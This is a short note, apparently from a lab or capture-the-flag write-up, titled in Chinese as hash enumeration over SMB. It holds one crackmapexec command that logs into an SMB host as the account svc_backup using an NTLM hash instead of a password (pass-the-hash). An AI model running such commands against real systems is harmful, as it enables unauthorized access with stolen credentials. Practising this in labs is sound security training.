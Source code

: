 # hash枚举smb

```clike
crackmapexec smb 10.129.13.243 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
